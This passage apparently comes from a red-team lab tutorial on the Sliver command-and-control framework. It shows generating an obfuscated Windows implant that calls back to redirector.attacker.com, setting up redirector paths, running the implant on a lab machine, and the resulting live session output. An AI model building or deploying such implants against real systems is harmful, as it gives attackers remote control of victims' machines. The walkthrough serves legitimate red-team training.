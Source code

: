 Generate:

```
[server] sliver > generate --http redirector.attacker.com/content --http redirector.attacker.com/assets

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 00:02:42
[*] Implant saved to /opt/sliver/DIFFICULT_CATSUP.exe
```

> Note, this takes a minute or, two ...

We can specify multiple connection strings. Including the paths from our redirector:

```
# /etc/nginx/sites-available/redir.conf
    [...]
    location /content {
    [...]
    location /assets {
    [...]
```

To view generated implants, use `implants`:

```
[server] sliver > implants 

 Name               Implant Type   OS/Arch             Format   Command & Control                                      Debug 
================== ============== =============== ============ ====================================================== =======
 DIFFICULT_CATSUP   session        windows/amd64   EXECUTABLE   [1] https://redirector.attacker.com/assets   false
```

The implant will be located at `/opt/sliver/DIFFICULT_CATSUP.exe`:

```
ls -lh /opt/sliver/DIFFICULT_CATSUP.exe 
 
-rwx------ 1 root root 16M Feb 10 03:35 /opt/sliver/DIFFICULT_CATSUP.exe
```

### Detonate

Download the implant to your nearest Windows system, then execute:

```
> .\DIFFICULT_CATSUP.exe
```

Back on the sliver server:

```
[server] sliver > 

[*] Session 20e7afe7 DIFFICULT_CATSUP - tcp(53.148.16.72:52954)->53.142.247.31 (lab) - windows/amd64 - Thu, 10 Feb 2022 03:50:38 UTC

[server] sliver > sessions

 ID         Name               Transport   Remote Address                            Hostname   Username       Operating System   Last Check-In                   Health  
========== ================== =========== ========================================= ========== ============== ================== =============================== =========
 20e7afe7   DIFFICULT_CATSUP   http(s)     tcp(53.148.16.72:52954)->53.142.247.31   lab      LAB\victim   windows/amd64      Thu, 10 Feb 2022 03:50:43 UTC   [ALIVE]
```
